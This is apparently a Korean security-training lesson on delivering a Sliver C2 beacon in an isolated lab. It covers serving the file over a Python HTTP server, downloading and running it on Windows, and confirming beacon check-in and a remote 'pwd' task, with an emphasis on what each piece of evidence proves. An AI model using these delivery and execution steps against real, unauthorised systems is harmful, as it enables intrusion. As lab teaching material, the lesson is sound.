

# 6강 — 전달·실행·연결 증거 { #lesson-6-delivery-execution-and-evidence }

**학습 목표:** 생성된 파일을 실습 대상에 전달하는 흐름을 따라가며, 응답·저장된 내용·실행·통신·작업 완료의 증거를 구분합니다.

## 두 서비스의 서로 다른 역할 { #two-services-two-purposes }

5강의 격리 환경을 이어갑니다. Linux 서버는 `192.168.56.10`, Windows 대상은 `192.168.56.20`이며 파일은 `lesson5-beacon.exe`입니다.

| 서비스 | 주소 | 목적 |
|---|---|---|
| Python 파일 서버 | `192.168.56.10:8000` | Windows에 실행 파일 제공 |
| Sliver C2 Listener | `192.168.56.10:8080` | 실행된 Implant와 작업·결과 교환 |



둘 다 HTTP를 사용할 수 있지만 같은 서비스는 아닙니다. 다운로드 성공과 C2 성공은 다릅니다.

## Linux에서 파일 서버 준비 { #prepare-file-server }

생성 완료 메시지로 파일 위치를 확인합니다. 전달할 실습 파일만 있는 전용 폴더를 준비한 뒤, **그 폴더에서 Linux 터미널을 엽니다.** Sliver 콘솔과는 별도의 터미널입니다.

먼저 원본 파일의 SHA-256을 계산합니다.

```bash
sha256sum ./lesson5-beacon.exe
```

나중에 비교할 값을 기록합니다. 이어서 같은 폴더에서 파일 서버를 시작합니다.

```bash
python3 -m http.server 8000 --bind 192.168.56.10
```

지정한 주소와 포트에서 현재 폴더의 파일을 제공합니다. 파일을 제공하는 동안 터미널을 열어 둡니다. 전용 폴더를 사용하면 제공하는 파일의 범위를 제한할 수 있습니다. Python의 간단한 서버는 이런 임시 실습 도구로 사용하는 것이며, 운영용 호스팅을 위한 서버는 아닙니다. [Python 공식 문서](https://docs.python.org/3/library/http.server.html)

## Windows 대상에서 다운로드 { #download-on-windows }

**Windows의 전용 실습 폴더에서 PowerShell을 엽니다.** 아래 상대 경로는 그 폴더를 기준으로 합니다.

```powershell
Invoke-WebRequest -Uri "http://192.168.56.10:8000/lesson5-beacon.exe" -OutFile ".\lesson5-beacon.exe" -UseBasicParsing
```

| 부분 | 의미 |
|---|---|
| `Invoke-WebRequest` | HTTP 요청 수행 |
| `-Uri` | 받아올 파일 주소 |
| `-OutFile` | 로컬에 저장할 파일 |
| `.\` | 현재 Windows 폴더 |
| `-UseBasicParsing` | Windows PowerShell 호환성을 포함한 기본 파싱 방식 사용 |

이 명령은 내용을 저장하며, 저장한 프로그램을 **자동 실행하지 않습니다.** [Microsoft 공식 문서](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest)

## HTTP 200으로 알 수 있는 것과 없는 것 { #http-200-evidence }

파일 서버에 다음과 비슷한 기록이 보일 수 있습니다. 단순화한 설명용 예시입니다.

```text
192.168.56.20 ... "GET /lesson5-beacon.exe HTTP/1.1" 200 -
```

`GET`은 요청 방식, 경로는 요청한 자원, `200`은 성공 HTTP 응답 상태입니다. 서버가 요청을 성공 상태의 응답으로 처리했다는 근거입니다.

**Windows에 파일 전체가 저장됐다는 증거는 아닙니다.** 응답을 시작한 뒤 전송이 끊기거나, 로컬 저장에 실패하거나, 보안 제품이 파일을 격리할 수 있습니다. 실행이나 Beacon 체크인도 입증하지 않습니다.

## 저장된 파일의 내용 비교 { #compare-saved-contents }

**Windows PowerShell**에서 실행합니다.

```powershell
Get-FileHash -LiteralPath ".\lesson5-beacon.exe" -Algorithm SHA256
```

원본 Linux 파일의 SHA-256과 비교합니다. 16진수 표시의 대문자·소문자 차이는 무시해도 됩니다.

| 결과 | 해석 |
|---|---|
| 해시 일치 | 두 파일의 내용이 같다는 강한 근거 |
| 해시 불일치 | 다른 파일, 변경된 내용, 전송 문제 등을 조사 |

해시는 흔히 디지털 지문에 비유합니다. 같은 해시는 내용 일치의 근거이며, 안전성이나 실행 여부를 판정하는 것은 아닙니다. [Microsoft 파일 해시 설명](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-filehash)

## 실행 후 체크인 확인 { #execute-and-inspect-check-ins }

**Sliver 콘솔**에서 필요한 C2 Listener가 실행 중인지 확인합니다.

```text
jobs
```

파일이 존재하고 허가된 실습에서 실행할 조건이 갖춰졌다면 **Windows PowerShell**에서 실행합니다.

```powershell
.\lesson5-beacon.exe
```

실행이 차단되거나 격리가 발생할 수도 있습니다. 이 경우 경로, 탐지 시각, 위협 이름, 조치를 기록합니다. 실습에서 관찰한 결과로 다루고 보호 기록을 조사합니다. 7강에서 해당 기록을 읽는 법을 배웁니다.

**Sliver 콘솔**로 돌아갑니다.

```text
beacons
```

예상한 호스트 이름과 사용자인지, 새 Beacon이 등록됐는지, 마지막 체크인 정보가 이후에도 갱신되는지 확인합니다. 과거의 목록 항목만으로 현재 통신 중이라고 판단하지 않습니다. [공식 Beacon 명령](https://github.com/BishopFox/sliver/blob/master/client/command/beacons/commands.go)

## 간단한 작업 확인 { #verify-a-simple-task }

**Sliver 콘솔**에서 실제 Beacon을 선택합니다.

```text
beacons --interact <Beacon_ID>
```

자리표시자와 꺾쇠괄호를 실제 ID로 바꿉니다. 이어서 작업 폴더를 확인합니다.

```text
pwd
```

여기서 `pwd`는 **선택한 대상의 작업 폴더**를 확인하는 Sliver 작업입니다. 운영자의 Linux 터미널에서 자신의 폴더를 확인하는 명령이 아닙니다. Beacon은 다음 체크인까지 작업 수신을 기다릴 수 있습니다. 결과를 받았다면 해당 작업의 **등록 → 전달 → 실행 → 결과 반환**을 확인한 것입니다. 모든 기능이 정상이라는 뜻까지는 아닙니다. [공식 파일시스템 명령](https://github.com/BishopFox/sliver/blob/master/client/command/filesystem/commands.go)

## 증거의 단계 { #evidence-ladder }

| 관찰한 사실 | 뒷받침하는 판단 |
|---|---|
| 서버의 HTTP `200` 기록 | 요청에 성공 응답 상태를 반환함 |
| Windows에 파일 존재 | 해당 경로에 파일이 있음 |
| 원본과 SHA-256 일치 | 저장된 내용이 같다는 강한 근거 |
| 새로운 Beacon 체크인 | 그 시점에 Implant가 실행되어 통신함 |
| 반복되는 체크인 갱신 | 이후 관찰 시점에도 통신이 이어짐 |
| `pwd` 결과 반환 | 해당 작업의 전달·수행·반환 완료 |

각 증거에는 확인할 수 있는 범위가 있습니다. 앞 단계의 증거를 뒷 단계의 성공으로 바꿔 해석하지 않습니다.

## 확인 문제 { #review-questions }

1. 파일 서버에 HTTP `200`이 기록됐습니다. Implant 실행과 C2 연결이 입증됐을까요?
2. 전체 Beacon 실행 파일을 받아 실행했고 체크인도 정상입니다. 8000번 Python 서비스만 종료하면 8080번 C2 통신도 반드시 중단될까요?

??? success "정답과 해설"
    **1. 아니요.** 응답 상태는 완전한 로컬 저장, 실행, C2 통신의 증거가 아닙니다. 저장 파일과 해시, 새로운 체크인, 작업 결과를 각각의 단계에 맞춰 확인합니다.

    **2. 이번 구성에서는 아닙니다.** 파일 제공 서비스와 C2 Listener는 별개입니다. Stageless 실행 파일은 이미 Implant 본체를 포함하므로 최초 다운로드 서비스가 더 필요하지 않습니다. 8000번 서비스만 종료해도 독립적으로 실행 중인 8080번 Listener와의 통신은 계속될 수 있습니다.

[7강 — 백신·EDR과 탐지 증거로 이동](lesson-7-antivirus-edr-and-detection-evidence.md)
